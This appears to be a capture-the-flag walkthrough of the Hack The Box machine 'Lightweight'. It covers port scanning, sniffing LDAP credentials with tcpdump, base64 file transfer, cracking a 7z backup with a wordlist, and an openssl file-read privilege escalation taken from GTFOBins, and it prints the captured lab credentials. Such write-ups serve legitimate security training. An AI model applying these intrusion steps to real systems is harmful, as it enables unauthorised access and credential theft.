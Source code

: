 # [Lightweight](https://app.hackthebox.com/machines/Lightweight)

```bash
nmap -p- -sT --min-rate 10000 10.10.10.119 -Pn
```

![Alt text](img/image.png)


After knowing open ports(22,80,389), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,389 10.10.10.119 -Pn
```

![Alt text](img/image-1.png)


Let's try to access port (80) and do more enumeration.

There , I find 'user.php' file says to me interesting fact,  let's do this.

![Alt text](img/image-2.png)

Hola, it worked

![Alt text](img/image-3.png)


Let's look at the users of this machine.

![Alt text](img/image-4.png)


Maybe 'ldapuser1' and 'ldapuser2' is important for us.


Let's dump traffic and read as because it is not encryped , and we can read by using dumping via `tcpdump` tool.

```bash
tcpdump -i lo -nnXs 0 'port 389'
```

While sniffing , we need to browse **'status.php' on website.**

![Alt text](img/image-5.png)



I grab credentials from sniffing.

ldapuser2:8bc8251332abe1d7f105d3e53ad39ac2


I login via above credentials.

![Alt text](img/image-6.png)


user.txt

![Alt text](img/image-7.png)


There is file called 'backup.7z', let's download this into our attackbox machine.

For this, I tried as many as methods, but none of them worked.

That's why I need to use `base64` for transfer.

```bash
base64 backup.7z
```

![Alt text](img/image-8.png)


Then, we decode this output on our machine.

```bash
base64 -d backup.7z.b64 > backup.7z
```

![Alt text](img/image-9.png)


I will try to extract this, but it asks password from me.

![Alt text](img/image-10.png)


For cracking password, I will use such [script](https://github.com/FreddieOliveira/bruteZip/blob/master/bruteZip.sh) from Github.

```bash
./bruteZip.sh backup.7z /usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-11.png)


Once we know that password is 'delete'. Let's extract this.

```bash
7z x backup.7z
```

I find file called `status.php`, while reading this, it gives me password of 'ldapuser1'.

![Alt text](img/image-12.png)


ldapuser1: f3ca9d298a553da117442deeb6fa932d

![Alt text](img/image-13.png)


I see that this user has bin files called 'openssl' and 'tcpdump' and have privileges to execute this.


I just searched privilege escalation for 'openssl' command and find exploit on [Gtfobins](https://gtfobins.github.io/gtfobins/openssl/#file-read)


```bash
LFILE=file_to_read
openssl enc -in "$LFILE"
```


root.txt

![Alt text](img/image-14.png)


